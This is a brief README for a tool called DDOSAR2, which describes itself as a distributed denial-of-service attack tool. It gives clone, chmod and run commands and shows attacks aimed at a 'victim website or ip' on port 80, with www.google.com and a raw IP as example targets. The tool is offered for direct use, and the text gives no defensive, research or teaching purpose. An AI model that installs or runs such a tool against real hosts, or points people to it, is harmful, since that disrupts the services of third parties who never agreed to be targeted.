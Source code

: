 # DDOSAR2
this tool for  distributed denial of service attack(DDOS ATTACK)


# how you install the tool 

git clone https://github.com/Oseid/DDOSAR2.git


# how using tool 

cd DDOSAR2/


chmod +x DDOSAR2


./DDOSAR2 victim website or ip and port 80 

for example 


./DDOSAR2 www.google.com 80 


or 


./DDOSAR2 173.194.44.81 80 



#  this is all
thanks you for using

Good Day...:)

